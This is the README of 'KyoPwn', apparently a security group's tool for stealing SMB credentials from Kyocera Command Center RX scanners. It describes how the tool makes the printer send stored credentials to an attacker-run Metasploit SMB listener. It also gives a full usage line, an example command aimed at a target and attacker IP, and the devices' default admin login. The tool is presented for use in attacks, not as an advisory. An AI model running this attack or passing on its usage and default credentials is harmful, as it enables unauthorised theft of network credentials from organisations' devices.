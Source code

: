 # KyoPwn
by G-Factor Security (@GFSec)

A tool to steal SMB credentials from Kyocera Command Center RX scanners

This tool will start an SMB listener (via Metasploit) and send the necessary request
to the target device to send an SMB test to your local listener, capturing SMB credentials

Usage: ./kyopwn.sh KyoceraIP YourIP YourSMBPort SMBUser AdminUser AdminPW

KyoceraIP: The IP of the targeted device

YourIP: The IP address of your local system (for sending credentials)

YourSMBPort: The local port for receiving SMB requests

SMBUser: The username of the account you wish to steal

AdminUser: The username of an admin on the Kyocera (default on devices is 'Admin', case-sensitive)

AdminPW : The password of the admin account being used on the Kyocera (default on devices is 'Admin')

Exampe: ./kyopwn.sh 192.168.0.2 192.168.0.100 445 ScanUser Admin Admin
